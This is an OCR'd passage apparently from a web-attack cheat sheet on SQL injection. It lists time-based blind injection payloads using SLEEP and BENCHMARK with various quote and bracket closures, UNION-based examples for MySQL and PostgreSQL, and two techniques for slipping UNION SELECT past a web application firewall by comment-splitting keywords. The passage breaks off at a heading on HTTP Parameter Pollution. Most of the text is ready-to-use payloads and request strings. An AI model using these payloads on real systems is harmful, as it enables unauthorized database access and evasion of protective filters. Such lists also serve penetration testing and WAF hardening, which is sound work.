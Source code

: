     SLEEP(5)--
    SELECT BENCHMARK(1000000,MD5('A'));
    id=1 OR SLEEP(25)=0 LIMIT 1--
    id=1) OR SLEEP(25)=0 LIMIT 1--
    id=1' OR SLEEP(25)=0 LIMIT 1--
    id=1') OR SLEEP(25)=0 LIMIT 1--
    id=1)) OR SLEEP(25)=0 LIMIT 1--
    id=SELECT SLEEP(25)--

1.  Exploitation features for various DBMSs



```
  Example: (MySQL): SELECT * from table where id = 1 union select 1,2,3
  Example: (PostgreSQL): SELECT * from table where id = 1; select 1,2,3
```

**Bypassing WAF: SQL Injection - Normalization Method**
Example Number (1) of a vulnerability in the function of request
Normalization.
• The following request doesn’t allow anyone to conduct an attack

` /?id=1+union+select+1,2,3/*`

• If there is a corresponding vulnerability in the WAF, this request

` will be successfully performed`
` /?id=1/*union*/union/*select*/select+1,2,3/*`

• After being processed by WAF, the request will become

` index.php?id=1/*uni X on*/union/*sel X ect*/select+1,2,3/*`

The given example works in case of cleaning of dangerous traffic, not in
case of blocking the entire request or the attack source.
Example Number (2) of a vulnerability in the function of request
Normalization.
• Similarly, the following request doesn’t allow anyone to conduct an
attack

` /?id=1+union+select+1,2,3/*`

• If there is a corresponding vulnerability in the WAF, this request
will be successfully performed

` /?id=1+un/**/ion+sel/**/ect+1,2,3--`

• The SQL request will become

` SELECT * from table where id =1 union select 1,2,3--`

*Instead of construction /\*\*/, any symbol sequence that WAF cuts off
can be used (e.g., \#\#\#\#\#, %00).*

*The given example works in case of excessive cleaning of incoming data
(replacement of a regular expression with the empty string).*

**'Using HTTP Parameter Pollution (HPP)**'
